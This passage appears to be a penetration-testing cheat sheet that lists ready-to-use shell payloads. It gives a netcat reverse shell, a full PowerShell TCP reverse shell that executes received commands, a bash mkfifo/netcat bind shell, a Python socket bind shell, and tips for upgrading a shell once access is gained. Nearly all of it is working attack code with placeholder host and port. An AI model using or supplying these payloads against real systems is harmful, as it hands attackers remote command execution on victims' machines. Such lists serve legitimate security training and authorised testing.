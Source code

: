 ## Netcat

```
nc -e /bin/sh <IP_ADDRESS> <PORT>
```

<div style="page-break-after: always;"></div>
## Powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

# Bind shells

## Bash

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp <PORT> >/tmp/f
```

```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",<PORT>));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
# Upgrading shells

-> TIP: Check what shells are available by running `cat /etc/shells`

-> After upgrading a shell, the $PATH environment variable might break. To set it up again, run:

```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin/:/sbin:/bin
```

-> After upgrading, run these to make the shell a bit more interactive:-
	1.`export SHELL=<SHELL_NAME>`
	2. `export TERM=xterm`

- Using Bash

```
/bin/bash -i
```

or

```
bash -i
```
